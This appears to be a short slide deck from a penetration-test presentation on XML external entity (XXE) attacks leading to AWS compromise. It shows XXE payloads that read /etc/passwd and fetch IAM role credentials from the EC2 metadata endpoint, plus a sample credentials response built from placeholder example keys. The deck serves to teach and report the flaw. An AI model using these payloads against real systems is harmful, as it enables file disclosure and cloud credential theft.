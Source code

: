 # XXE and AWS Compromise

---

## @fa[book](Background)
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code](XML Entities)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws](AWS Metadata)
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >
]>

<foo>&xxe;</foo>
```

`http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role`

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln2.png)

---

## @fa[terminal](Metadata)
```json
{
  "Code" : "Success",
  "LastUpdated" : "2019-07-01T12:11:43Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "AKIAIOSFODNN7EXAMPLE",
  "SecretAccessKey" : "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token" : "************",
  "Expiration" : "2019-07-01T18:46:08Z"
}
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln3.png)

---

## @fa[search-plus](Summary)
![stop it](https://media.giphy.com/media/l4Ki2obCyAQS5WhFe/giphy.gif)
